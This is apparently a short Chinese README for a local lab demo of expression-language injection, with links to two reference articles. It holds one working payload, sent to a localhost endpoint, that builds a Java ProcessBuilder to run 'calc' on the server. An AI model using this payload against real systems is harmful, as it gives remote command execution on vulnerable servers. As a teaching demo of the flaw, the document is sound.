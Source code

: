 IDEA导入
执行http://127.0.0.1:8080/fail2?payload=${new%20java.lang.ProcessBuilder(new%20java.lang.String(new%20byte[]{99,97,108,99})).start()}


参考


https://www.cnblogs.com/litlife/archive/2018/12/27/10183137.html
https://mp.weixin.qq.com/s?__biz=MzAwMzI0MTMwOQ==&mid=2650173748&idx=1&sn=a0fa9e48ed05d80b7c693082f6b687ce&scene=1&srcid=0911LaFVNrVdYZr7nIyS8Nn3#rd
